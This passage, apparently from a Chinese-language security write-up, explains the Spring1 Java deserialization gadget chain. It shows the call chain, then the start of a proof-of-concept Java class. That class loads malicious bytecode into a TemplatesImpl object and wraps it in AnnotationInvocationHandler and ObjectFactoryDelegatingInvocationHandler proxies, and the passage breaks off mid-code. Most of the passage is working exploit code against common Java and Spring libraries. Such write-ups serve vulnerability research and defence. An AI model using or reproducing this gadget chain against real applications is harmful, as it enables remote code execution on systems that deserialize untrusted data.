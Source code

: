 整条链子如下：

```bash
SerializableTypeWrapper$MethodInvokeTypeProvider.readObject()
    SerializableTypeWrapper.TypeProvider(Proxy).getType()
        AnnotationInvocationHandler.invoke()
            ReflectionUtils.invokeMethod()
                Templates(Proxy).newTransformer()
                    AutowireUtils$ObjectFactoryDelegatingInvocationHandler.invoke()
                        ObjectFactory(Proxy).getObject()
                            TemplatesImpl.newTransformer()
```

poc 如下：

```bash
package com.example.spring;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.xml.internal.bind.v2.runtime.reflect.opt.Const;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.springframework.beans.factory.ObjectFactory;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class spring1 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{getTemplates()});
        setFieldValue(templatesImpl, "_name", "aiwin");
        setFieldValue(templatesImpl, "_tfactory", null);
        //AnnotationInvocationHandler 代理 objectFactory 类，让 objectFactory.getObject() 返回 TemplatesImpl 恶意类
        Class<?> annotationInvocationHandler=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor=annotationInvocationHandler.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
        HashMap hashMap=new HashMap();
        hashMap.put("getObject",templatesImpl);
        InvocationHandler invocationHandler= (InvocationHandler) constructor.newInstance(Target.class,hashMap);
        ObjectFactory<?> objectFactory= (ObjectFactory<?>) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{ObjectFactory.class},invocationHandler);

        //将ObjectFactory赋值给ObjectFactoryDelegatingInvocationHandler
        Class<?>  ObjectFactoryDelegatingInvocationHandler=Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> constructor1=ObjectFactoryDelegatingInvocationHandler.getDeclaredConstructor(ObjectFactory.class);
        constructor1.setAccessible(true);
        InvocationHandler objInvocationHandler = (InvocationHandler) constructor1.newInstance(objectFactory);

        //这里是连接桥梁，承上启下，修改成Type和Templates两个接口,findMethod()时匹配返回newTransform(),
```